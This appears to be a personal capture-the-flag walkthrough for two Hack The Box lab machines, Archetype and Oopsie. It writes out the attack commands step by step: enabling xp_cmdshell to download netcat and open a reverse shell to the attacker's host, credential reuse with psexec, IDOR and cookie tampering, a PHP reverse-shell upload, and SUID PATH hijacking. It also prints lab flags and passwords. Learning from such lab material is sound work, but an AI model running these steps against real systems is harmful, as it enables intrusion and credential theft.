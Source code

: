 # TIER 2 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap, smbclient, impacket, netcat, winPEAS, Burp Suite

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

-Sc script scan
-sV probe for service/version info
-oN save output to file
-p- scan all ports

**smbclient**: ftp-like client to access SMB/CIFS resources on servers

```
smbclient [-M|--message=HOST] [-I|--ip-address=IP] [-E|--stderr] [-L|--list=HOST] [-T|--tar=<c|x>IXFvgbNan] [-D|--directory=DIR] [-b|--send-buffer=BYTES]
       [-t|--timeout=SECONDS] [-p|--port=PORT] [-g|--grepable] [-q|--quiet] [-B|--browse] [-?|--help] [--usage] [-d|--debuglevel=DEBUGLEVEL] [--debug-stdout]
       [-s|--configfile=CONFIGFILE] [--option=name=value] [-l|--log-basename=LOGFILEBASE] [--leak-report] [--leak-report-full] [-R|--name-resolve=NAME-RESOLVE-ORDER]
       [-O|--socket-options=SOCKETOPTIONS] [-m|--max-protocol=MAXPROTOCOL] [-n|--netbiosname=NETBIOSNAME] [--netbios-scope=SCOPE] [-W|--workgroup=WORKGROUP] [--realm=REALM]
       [-U|--user=[DOMAIN/]USERNAME%[PASSWORD]] [-N|--no-pass] [--password=STRING] [--pw-nt-hash] [-A|--authentication-file=FILE] [-P|--machine-pass] [--simple-bind-dn=DN]
       [--use-kerberos=desired|required|off] [--use-krb5-ccache=CCACHE] [--use-winbind-ccache] [--client-protection=sign|encrypt|off] [-V|--version] [-c|--command=STRING]
```

**Impacket Colletion**: collection of python classes for working with network protocols

mssqlclient.py - establish authenticated connection to MS SQL
psexec.py - exploit writable shares on samba and start admin reverse shell

**netcat**: networking utility for reading and writing to network connections using TCP/IP

```
nc [-options] hostname port[s] [ports] ...
nc -l -p port [-options] [hostname] [port]
```

-n suppress name/port resolutions
-l listen mode
-v verbose
-p port

**winpeas**: script that searches for possible paths to escalate privileges on windows hosts

--------------------------------------------------------------------

**WINDOWS CMDs**:<br>
dir --> ls<br>
type --> cat<br>

--------------------------------------------------------------------

## ARCHETYPE BOX

**TOOLS USED**: nmap, smbclient, impacket

**IP Address**: 10.129.100.57

```
nmap -sC -sV -p- -oN archetype_nmap.txt 10.129.100.57
```

**EXPOSED PORT (SERVICE)**:<br>
135 (msrpc)<br>
139 (netbios-ssn)<br>
445 (microsoft-ds)<br>
1433 (ms-sql-s)<br>
5985 (http)<br>
47001 (http)<br>
49664 (msrpc)<br>
49665 (msrpc)<br>
49666 (msrpc)<br>
49667 (msrpc)<br>
49668 (msrpc)<br>
49669 (msrpc)<br>

USER: guest

```
smbclient -N -L 10.129.100.57
```

SHARES:<br>
ADMIN$<br>
backups<br>
C$<br>
IPC$<br>

TARGET SHARE: backups (non-administrative because no $ so no password required)

```
smbclient //10.129.100.57/backups -U guest
> get prod.dtsConfig
```

USER: ARCHETYPE\sql_svc
PASSWORD: M3g4c0rp123

To establish authenticated connection to MS SQL:
```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.100.57 -windows-auth
> enable_xp_cmdshell
> reconfigure
```

Get exe file from host:
```
cd /opt/exe
sudo python3 -m http.server 80
```
```
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/nc.exe -outfile nc.exe"
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.102/winPEASx64.exe -outfile winPEAS.exe"
```

Start a reverse shell:
```
nc -nlvp 4444  
```
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; ./nc.exe -e cmd.exe 10.10.14.102 4444"
```

C:\Users\sql_svc\Desktop\user.txt: 3e7b102e78218e935bf3f4951fec21a3

Priveledge Escalation:
```
> .\winPEAS.exe
```

PRIV ESC TARGET: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

FILE CONTENT: net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!

PASSWORD: MEGACORP_4dm1n!!

Exploit writable shares on samba and start admin reverse shell:
```
sudo python3 psexec.py administrator@10.129.100.57
```

FLAG: b91ccec3305e98240082d4474b848528

--------------------------------------------------------------------

## OOPSIE BOX

**TOOLS USED**: nmap, Burp Suite, netcat

**IP Address**: 10.129.15.32

```
nmap -sC -sV -p- -oN archetype_nmap.txt 10.129.15.32
```

**EXPOSED PORT (SERVICE)**: 22 (ssh), 80 (http)

Get sitemap and accessible directories from using Burp Suite:
![Burp Site Map](./burp_spider.png)

Can also do inspect element to find this.

TARGET: http://10.129.15.32/cdn-cgi/login/

Log in as guest, go to Account.<br>
URL: http://10.129.15.32/cdn-cgi/login/admin.php?content=accounts&id=2

Setting parameter id to 1 will give access to admin account page.

ACCESS ID: 34322

Use Burp Suite to intercept request to go to uploads page and edit cookie to give admin access:
![Burp Site Map](./burp_cookie.png)

Upload php reverse shell script

```
gobuster dir -u http://10.129.15.32 -w /usr/share/dirb/wordlists/common.txt
```

UPLOAD DIR: http://10.129.15.32/uploads

```
nc -nlvp 4444
```

Go to this url to trigger shell:
http://10.129.15.32/uploads/payload.php

SQL LOGIN (/var/www/html/cdn-cgi/login/db.php):
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

USER: robert<br>
PASSWORD: M3g4C0rpUs3r!<br>
USER.TXT: f2c74ee8db7983851ab2a96a44eb7981<br>

To see who has /bin/bash permission:
```
cat /etc/passwd
```

To get interactive shell:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
sudo robert
```
To see if robert has any sudo permissions and then see robert's permissions:
```
sudo -l
id
```

PERMISSIONS: uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)<br>
TARGET: bugtracker group

Find files owned by bugtracker group
```
find -group bugtracker
```

TARGET: /usr/bin/bugtracker
PERMISSIONS: -rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

root bit is set so file will always run as root.<br>

bugtracker program gives this error when bug not found:<br>
cat: /root/reports/32322322323: No such file or directory<br>
We can exploit the cat command because it is run insecurely

```
cd /tmp
echo "bin/sh" > cat
chmod +x cat
export PATH=/tmp:$PATH # adds /tmp to the PATH variable
bugtracker
```

FLAG: af13b0bee69f8a877c3faf667f7beacf

